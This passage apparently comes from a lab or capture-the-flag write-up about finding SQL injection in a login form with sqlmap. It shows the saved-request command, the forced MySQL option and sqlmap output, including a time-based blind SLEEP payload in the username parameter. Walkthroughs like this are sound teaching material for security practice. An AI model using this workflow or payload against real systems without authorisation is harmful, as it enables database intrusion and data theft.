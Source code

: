 I clean up the username parameter for sqlmap, because it does not like parameters with manual sql injection attempts. The updated parameters line is:

```bash
username=admin&password=admin&login=
```

now run `sqlmap`

```bash
> sqlmap -r admin.req

...SNIP

[10:48:15] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable


...SNIP

```

although it does not proceed with the injection.

but, we see in the logs 

```bash
[10:48:56] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
```

let's try again with this option set

```bash
> sqlmap -r admin.req --dbms=mysql


...SNIP

POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 107 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 2524 FROM (SELECT(SLEEP(5)))xERJ) AND 'Cmqx'='Cmqx&password=admin&login=
---


...SNIP
```

we have time-based blind injection.

This will be slow so we have to be particular about what we decide to dump or we will be here all day...

